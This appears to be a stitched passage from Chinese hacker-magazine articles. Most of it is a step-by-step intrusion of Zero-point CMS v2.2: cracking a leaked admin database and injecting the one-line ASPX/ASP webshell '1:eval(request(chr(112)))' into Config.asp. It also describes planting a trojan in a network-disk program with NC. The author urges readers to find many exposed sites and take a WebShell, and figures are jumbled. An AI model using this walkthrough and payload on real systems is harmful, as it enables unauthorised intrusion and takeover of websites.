

这里需要注意的是桃源网络硬盘的保护模块，就是前面所说的发现用户目录上有类似“ASPX”的文件时会把它删除。这里不管你是不是木马都会删除。所以用 NC 把文件转移后千万不要再用桃源网络硬盘的文件查找功能，否则保护模块激活后，我们刚才忙活的都白干了。可以利用的“about.aspx”文件毕竟只有一个（桃源网络硬盘目录上的类 ASPX 文件都是相关的，文件失踪后就无法再使用）。

“在线文本文档编辑”的保护模块有一个清除 ASPX 文件的功能，所以我们不能再使用这个功能了，但可以直接通过“在线文本文档编辑”去打开自己指定存在的文件。下面我利用“在线文本文档编辑”去编辑我指定的“b.aspx”文件，如图13所示。

下面到最重要的时刻，在此写入 ASPX 木马然后保存，如图14所示。

由图14可以看出用此法保存 ASPX 文件并非难事。如果我们能够猜到它存放用户文件的相对路径，而且该目录具备执行脚本的权限，就可以重组 URL 直接使用了，但有时用户目录并不一定具备脚本的执行权限。





所以，我又引出下面的方法：既然我可以把桃源网络硬盘的程序移动到我的目录，为什么不可以把我目录上的文件移动到有执行权限的目录呢？再次请出 NC，提交的数据修改如图15所示。



此处源文件名改为自己目录的文件名，我的是“b.aspx”。正常情况是“%7C%2F”+你的新文件名（不含扩展名），所以把它修改成“%7C/muma”就可以了。用 NC 提交后就会在网络硬盘程序目录上出现一个“muma.aspx”，我们直接用 IE 访问，如图16所示。

图17就是我们辛勤汗水的结晶。切记使用了僵尸还魂大法后要清理与修复现场。看来要得到一个网站的 WebShell 并不难，但是出现此问题如何解决呢？其实很简单，只要在后台里的可编辑文件类型里把一些不安全的文件类型屏蔽掉就可以了，但这治标不治本。我们现在所能做的，就是期待网盘开发者的新版本补丁的到来。





- 适合读者：网络爱好者，入侵爱好者
- 前置知识：无

## 点燃烽火

我院 Web 服务器所采用的管理系统是“零点站点管理系统”，因为近期对其做了一次安全测试，便有了此文。首先对这个系统进行一番注入漏洞检测，随便找一处链接“http://localhost/Unit_View.asp?id=3”提交个单引号试试，返回如图1所示。看来程序的设计者已经考虑到这一点，再看看别的几处链接，均是无功而返。再试试暴库漏洞，把一个二级路径的“/”替换成“%5c”，如图2所示，看来暴库失败。



## 一路高歌

换个思路，我们可以试一下白盒测试。到网上下了一个同版本的整站程序来分析测试，最新版本是 V3.1 的，我们稍后测试。大致摸清了零点的组织架构后，回头看渗透这边，在 IE 地址栏输入 Data 目录（零点数据库默认目录），返回如图3所示的信息。



图2



图6



图3

管理员竟然把 Web 目录的浏览权限留给了我们，这样连数据库名都不用费劲去猜了，而且还是默认的 Data.mdb。用 Access 轻易拿到了用户名和 MD5 加密过的密码，直接用 MD5Crack 去跑，没几秒钟就跑出了弱密码。用密码进了前台，发现界面跟普通用户没什么区别，随后根据地图如图4所示。



图4

先看看有没有上传漏洞，如图5所示。



图5

发现它跟动网系统完全不一样，上传框架是用脚本生成的。后来分析源文件知道它用的是“无限上传组件”。我接着注意到旁边的“备份数据库”模块，这使我想到了经典备份漏洞，打开一看，如图6所示。

很遗憾，程序设计者又把我们堵死在这了。还是先放下渗透，分析一下源文件再说吧。

## 过滤的玄机

大致把代码看了一下，发现作者对过滤用户输入数据这一块情有独钟，暂时还没找到什么可利用的。朋友提醒 `save_Config.asp` 好像有点问题，当晚我便把源码啃了一遍，代码如下：

```asp
<!--#include file="CommonFunction.asp"-->
<%
Function saveConfig()
Tmp_sitetitle=HTMLEncode(Request.Form("sitetitle"))
Tmp_copyright=HTMLEncode(Request.Form("copyright"))
...
ConfigWrite.WriteLine("")
content="Const ZD_SiteTitle="+chr(34)+Tmp_sitetitle+chr(34)
ConfigWrite.WriteLine(content)
content="Const ZD_CopyRight="+chr(34)+Tmp_copyright+chr(34)
ConfigWrite.WriteLine(content)
End Function
%>
```

以上代码来自处理站点参数配置页面数据的关键文件。后面几行表示要把管理员输入的配置参数写入到 Config.asp 中，再在每个网页里调用。写到这里读者可能已经知道我们要干什么了：就是把后门插进 Config.asp 里。点击进入如图7所示的界面，在站点名称里填入一句话木马，注意前后引号闭合。随后连接 Config.asp；若注入成功，Config.asp 会有 execute 类型不匹配提示。打开本地环境中的 Config.asp 查看，木马已经被自动修改得面目全非。



图7

```vb
fString = Replace(fString, CHR(13)&CHR(10), "<br><br>")
HTMLEncode = fString
end if
end Function
```

难怪我的小马会惨死，此 HTMLEncode 比 BBSXP 的 HTMLEncode 还要狠，小马死得不冤。第二天把 HTMLEncode 代码发给无心，后来他建议说把敏感字符转换一下再提交，和我的想法不谋而合。由于过滤的代码可以得知冒号和“+”号没有过滤，我们把木马改良了一下……再次保存数据，打开 Config.asp 查看，如图10所示。



图8



图10

我们看代码的这一行“Tmp_sitetitle = HTMLEncode(Request.Form("sitetitle"))”。原来是 HTMLEncode 函数对输入进行了过滤。看到前面 include 了一个 CommonFunction.asp，可以肯定 HTMLEncode 函数就是它搞出来的。在 Inc 目录下找到了这个“万恶根源”，打开一看，如图9所示。



图9

定定神，可以看出此文件是经过加密的……这里我把 HTMLEncode 函数的代码列出来。

```vb
Function HTMLEncode(fString)
if not isnull(fString) then
  fString = Replace(fString, CHR(38), "&#38;")
  fString = replace(fString, ">", "&gt;")
  fString = replace(fString, "<", "&lt;")
  fString = Replace(fString, CHR(39), "&#39;")
  fString = Replace(fString, CHR(32), "&nbsp;")
  fString = Replace(fString, CHR(34), "&quot;")
  fString = Replace(fString, CHR(13), "")
  fString = Replace(fString, CHR(10), "<br>")
end if
End Function
```

用客户端再连接一次，又是失败。再三分析这段代码才恍然大悟……现在可以肯定的是，在网站名称处插马无法实现。结合 HTMLEncode 分析，程序先把 Request(sitetitle) 传递到 Tmp_sitetitle 变量中，再经过过滤，最后放到全局变量中。到 Config.asp 后并没有把 chr(34) 还原为原字符，因此要让马发挥作用必须让它以双引号形式出现在 Config.asp 中。

## 剑走偏锋

我们继续看 Save_Config.asp 的代码，看到有这么一段：

```vb
ConfigWrite.WriteLine(content)
content = "Const ZD_Interval=" & Tmp_Interval & "'刷新时间，值越大则同时在线人数也就越多....."
```

在这里，程序并没有给 Tmp_Interval 前后加上双引号……我们构造“1:eval(request(chr(112)))”并发送，最终成功触发。至此，零点 CMS v2.2 正式宣告沦陷。

## 接近尾声



图11

后来我对零点 3.1 又分析了一次，发现有点不同的地方在 Admin_site.asp 里，作者似乎做了修改，简单地在提交 Interval 的地方添加了一个 `maxlength="8"` 作长度限制。虽然我们的木马代码已经不能再短了，但我们只要构造一个本地提交页面，并把 Admin_site.asp 里的默认“不允许外部提交”修改成“允许”就可以解决了。不过前提是我们先要能登录后台，否则无法通过“/inc/checklogin.asp”验证，具体的过程就交给读者们慢慢研究吧！

用“零点站点管理系统”作为关键字去百度搜索一下，发现用户非常广泛。其中以默认数据库路径和密码配置的站点也不在少数，相信看罢此文的读者拿个 WebShell 应该不成问题。

## 清扫战场

本来这应该是程序设计者的工作，若大家等不及官方更新版本或补丁的话，不妨参考以下几种方法做一些修补：

- 更改默认设置，如数据库路径以及 Admin 默认密码（前提是还没有人公布前台的漏洞）。
- 修改 HTMLEncode 函数，添上两个过滤冒号和括号的过滤语句，现提供参考：

```
fString = Replace(fString, CHR(40), "<br />")
fString = Replace(fString, CHR(58), "0x3A00")
```

> WTF：从源码中寻找 BUG 是一件很枯燥但也很有意思的事情。虽然花费时间多，但是所得到的乐趣远远超过你入侵一个网站所得到的快感。作者通过对 94KKBBS 的程序进行分析和测试，找到了一注入、跨站、越权等一系列安全隐患。通过这篇文章，我们也可以系统地了解一下手工查找漏洞的方法，希望越来越多的朋友加入分析、发现漏洞。

- 适合读者：网络爱好者、脚本爱好者、入侵爱好者
- 前置知识：脚本入侵基础知识

## 层层剖析：94KKBBS 官方的众多漏洞

